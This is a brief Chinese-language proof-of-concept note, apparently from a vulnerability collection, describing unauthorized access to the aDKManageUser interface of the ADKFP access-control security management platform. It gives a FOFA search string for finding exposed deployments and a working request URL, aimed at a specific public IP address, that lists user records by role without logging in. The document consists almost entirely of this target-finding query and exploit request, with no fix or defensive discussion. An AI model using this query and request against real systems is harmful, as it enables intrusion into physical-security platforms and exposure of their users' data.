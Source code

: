 # ADKFP门禁出入口综合安防管理平台aDKManageUser文件存在未授权访问

    ## fofa

```
body="/adkfp/getCode"
```

## poc

```
http://47.101.78.243/aDKManageUser/selectCll_2?roleId=2&page=1&limit=10
```
